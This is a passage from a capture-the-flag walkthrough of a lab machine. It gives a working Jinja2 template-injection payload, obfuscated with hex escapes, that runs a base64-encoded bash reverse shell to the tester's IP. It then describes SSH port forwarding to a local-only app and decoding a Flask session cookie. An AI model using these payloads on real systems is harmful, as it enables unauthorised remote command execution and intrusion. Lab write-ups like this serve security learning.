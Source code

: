 Encoding a reverse shell command with **Base64**:
```
echo 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1' | base64 -w 0
```

Sending the encoded command in the request:
```
POST /a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal HTTP/1.1
(...)

contact={% include request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("echo+YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC42LzkwMDEgMD4mMQo%3d+|+base64+-d+|+bash")|attr("read")()%}&message=a
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell as the user _chiv_.

## Privilege Escalation

After enumerating the box, the command `ss -lnpt` shows that there is port 8080 listening on localhost and there is another web application in the directory _/var/www/game_ which is owned by root.

By using the **SSH command line**, the port can be forwarded to our local client:
```
ssh> -L 8000:127.0.0.1:8080
Forwarding port.
```

It can now be reached on our local client on port 8000 and it shows a login form:

![Beta login on port 8080](spider_web-2.png)

The login form does not care about a correct username and forwards to _/site_ with anything that is sent.

Decoding the provided cookie:
```
flask-unsign --decode --cookie '.eJxFjr1ugzAYRV-l8twBVDqE0bINobERBvtLv(...)'
```
```
{'lxml': b'PCEtLSBBUEkgVmVyc2lvbiAxLjAuMCAtLT4KPHJvb3Q+CiAgICA8ZGF0YT4KICAgICAgICA8dXNlcm5hbWU+YW55dGhpbmc8L3VzZXJuYW1lPgogICAgICAgIDxpc19hZG1pbj4wPC9pc19hZG1pbj4KICAgIDwvZGF0YT4KPC9yb290Pg==', 'points': 0}
```
